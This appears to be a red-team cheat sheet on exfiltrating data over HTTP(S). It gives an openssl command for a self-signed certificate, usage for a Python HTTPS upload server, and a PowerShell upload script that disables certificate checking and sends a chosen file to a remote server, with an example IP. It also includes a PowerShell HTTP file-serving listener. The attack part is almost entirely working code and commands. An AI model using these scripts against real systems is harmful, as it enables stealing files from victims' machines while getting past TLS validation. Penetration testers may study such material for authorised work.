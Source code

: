 # Exfiltration

## Exfiltration Over HTTP(S)
### The Server - Python

1. Download Python HTTPS Server with Authentication
	
	ADDLINK

2. Create certificate

Create a certificate so you can use SSL

```
openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
```

3. Start the server

Usage:

```
python simple-https-server.py 4433 admin:password
```

### The Client - Powershell

1. Create upload.ps1

```
 add-type @"
 using System.Net;
 using System.Security.Cryptography.X509Certificates;
 public class TrustAllCertsPolicy : ICertificatePolicy {
 public bool CheckValidationResult(
 ServicePoint srvPoint, X509Certificate certificate,
 WebRequest request, int certificateProblem) {
 return true;
 }
 }
"@
[System.Net.ServicePointManager]::CertificatePolicy = New-Object TrustAllCertsPolicy

echo "========================================================================"
echo "USAGE: ./upload.ps1 https://domain.com/ username:password file_to_upload"
echo "-"
echo "NOTE: script and file to be uploaded must be in the same directory"
echo "========================================================================"

$url=$args[0]
$auth=$args[1]
$filename=$args[2]

$encodedCreds = [System.Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes($auth))

$WebClient = new-object System.Net.WebClient
$WebClient.Headers.Add("Authorization", "Basic " + $encodedCreds)
$WebClient.Headers.Add("X-Atlassian-Token", "nocheck")
$WebClient.UploadFile($url, (Get-Location).Path + "\" + $filename)
```


2. Upload files to server


`./upload.ps1 <https://ip:port/> <admin:password> <file (in current dir)>`

`./upload.ps1 https://192.168.46.1:4433/ admin:password file_to_upload`


## HTTP Server


```
$port = 8080
$dir = (Get-Location).Path
$listener = New-Object System.Net.HttpListener
$listener.Prefixes.Add("http://*:$port/")
$listener.Start()

Write-Host "HTTP server started on port $port"
Write-Host "Serving files in directory $dir"

while ($listener.IsListening) {
    $context = $listener.GetContext()
    $request = $context.Request
    $response = $context.Response
    $filename = $request.Url.LocalPath.TrimStart('/')
    $filepath = Join-Path $dir $filename

    if (Test-Path $filepath -PathType Leaf) {
        $bytes = [System.IO.File]::ReadAllBytes($filepath)
        $response.OutputStream.Write($bytes, 0, $bytes.Length)
    } else {
        $response.StatusCode = 404
    }

    $response.Close()
}

$listener.Stop()
```
